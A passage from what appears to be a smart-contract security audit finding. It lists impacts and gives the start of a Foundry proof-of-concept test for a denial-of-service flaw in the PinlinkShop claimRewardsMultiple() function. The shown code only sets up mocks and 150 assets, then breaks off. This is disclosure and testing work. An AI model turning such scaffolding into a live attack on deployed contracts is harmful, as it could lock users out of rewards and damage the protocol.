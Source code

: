 1. Preventing competition from claiming rewards in time-sensitive scenarios
2. Forcing users to claim rewards one-by-one through individual transactions, increasing their gas costs
3. Creating frustration that could damage the protocol's reputation

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.27;

import "forge-std/Test.sol";
import {console} from "forge-std/console.sol";
import {PinlinkShop} from "src/marketplaces/pinlinkShop.sol";
import {MockUSDC} from "test/MockUSDC.sol";
import {IERC20} from "lib/openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import {IERC1155} from "lib/openzeppelin-contracts/contracts/token/ERC1155/IERC1155.sol";
import {IFractionalAssets} from "src/fractional/IFractionalAssets.sol";
import {IPinlinkOracle} from "src/oracles/IPinlinkOracle.sol";

/**
 * @title PinlinkShopArrayDoS
 * @notice Exploit test demonstrating the unchecked array length vulnerability in claimRewardsMultiple()
 */
contract PinlinkShopArrayDoS is Test {
    // Contracts
    PinlinkShop public shop;
    MockUSDC public usdc;
    MockUSDC public pin;
    MockOracle public oracle;
    MockFractionalAssets public fractions;
    
    // Actors
    address public admin = address(0x1);
    address public operator = address(0x2);
    address public victim = address(0x3);
    address public attacker = address(0x4);
    
    // Constants for testing
    uint256 public constant ASSET_COUNT = 150; // Creating many assets for the DoS attack

    function setUp() public {
        vm.startPrank(admin);
        
        // Deploy mock contracts
        usdc = new MockUSDC();
        pin = new MockUSDC(); // Using MockUSDC for PIN token as well
        oracle = new MockOracle();
        fractions = new MockFractionalAssets();
        
        // Deploy the PinlinkShop contract
        shop = new PinlinkShop(address(pin), address(oracle), address(usdc));
        
        // Set up roles
        shop.grantRole(shop.OPERATOR_ROLE(), operator);
        
        // Initialize assets
        for (uint256 i = 0; i < ASSET_COUNT; i++) {
            fractions.mint(i, admin, 100);
            fractions.setApprovalForAll(address(shop), true);
            shop.enableAsset(address(fractions), i, admin);
        }
        
```